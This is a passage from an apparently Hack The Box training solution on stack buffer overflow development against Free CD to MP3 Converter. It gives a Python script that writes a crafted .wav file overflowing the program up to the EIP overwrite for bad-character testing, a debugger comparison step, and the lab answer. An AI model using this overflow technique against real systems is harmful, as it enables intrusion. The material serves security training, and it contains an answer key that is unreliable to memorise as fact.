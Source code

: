 Code: python

```python
def badChars():
    allChars = bytes([0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
                      0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
                      0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
                      					   <SNIP>
                      0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
                      0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
                      0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
                    ])
    offset = 4112
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + allChars
    with open("chars.wav", "wb") as file:
        file.write(payload)
badChars()
```

![[HTB Solutions/Others/z. images/bfa72e974044c90a2284cc4396c9de86_MD5.jpg]]

With the Python script ready, students need to run it to generate the "chars.wav" file in the Desktop directory:

![[HTB Solutions/Others/z. images/682c953a526a1ca4a68e7a6a95bbeddd_MD5.jpg]]

Then, while attached to `x32dbg`, students need to load the "chars.wav" file into `Free CD to MP3 Converter`:

![[HTB Solutions/Others/z. images/35d8dfd23d14a3005ffd664df926e1fc_MD5.jpg]]

Afterward, students need to compare the input in memory to all characters using `ERC`. Students first need to copy the address of `ESP`, which is `0014F974`:

![[HTB Solutions/Others/z. images/b58ce2002eac85d33bc7d920212eb6e4_MD5.jpg]]

Students will then use the `--compare` option of `ERC` on the `ESP` address and the location of the `.bin` file that contains all characters generated earlier:

Code: powershell

```powershell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

After executing this command, students need to go to the "Log" tab, and notice that both memory regions are identical:

![[HTB Solutions/Others/z. images/3e5ad31342c2f9f10d5219bb4c1d9478_MD5.jpg]]

Thus, the number of bad characters is `0`.

Answer: `0`

